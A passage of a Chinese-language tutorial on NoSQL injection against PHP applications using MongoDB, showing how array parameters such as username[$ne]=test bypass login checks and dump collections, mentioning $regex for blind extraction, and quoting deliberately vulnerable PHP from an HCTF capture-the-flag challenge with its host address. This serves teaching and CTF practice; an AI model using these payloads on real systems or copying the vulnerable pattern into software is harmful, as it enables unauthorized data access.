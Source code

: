 > db.test.find({username:'test',password:'test'});

如果此时传入的url如下:

> http://127.0.0.1/2.php?username[xx]=test&password=test

则$username就是一个数组，也就相当于执行了php语句：

```
$data = array(
'username'=>array('xx'=>'test'),
'password'=>'test');

```

而mongodb对于多维数组的解析使最终执行了如下语句：

> db.test.find({username:{'xx':'test'},password:'test'});

利用此特性，我们可以传入数据，是数组的键名为一个操作符（大于，小于，等于，不等于等等），完成一些攻击者预期的查询。

如，传入url:

> http://127.0.0.1/2.php?username[$ne]=test&password[$ne]=test

结果如图

![enter image description here](http://drops.javaweb.org/uploads/images/95a9fa671bde2896900547b42acf9541900c45bd.jpg)

因为传入的键名$ne正是一个mongodb操作符，最终执行了语句：

> db.test.find({username:{'$ne':'test'},password:{'$ne':'test'}});

这句话相当于sql:

> select * from test where username!='test' and password!='test';

直接便利出所有集合中的数据。

如果此时的用户名与密码不能回显，只是返回一个逻辑上的正误判断。

那么我们可以采用$regex操作符来一位一位获取数据。

案例演示：http://121.40.86.166:23339/

这是hctf中的一道题目。

猜测其php代码大概如下

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$lock = $_POST['lock'];
$key = $_POST['key'];
if (is_array($lock)) {
    $data = array(
        'lock'=>$lock);
    $data = $coll->find($data);
    if ($data->count()>0) {
        echo 'the lock is right,but wrong key';
    }else{
        echo 'lock is wrong';
    }
}else{
    if ($lock == 'aabbccdd'&&$key=='aabbccdd') {
        echo 'Your flag is xxxxxxx';
    }else{
        echo 'lock is wrong';
    }
}
?>
```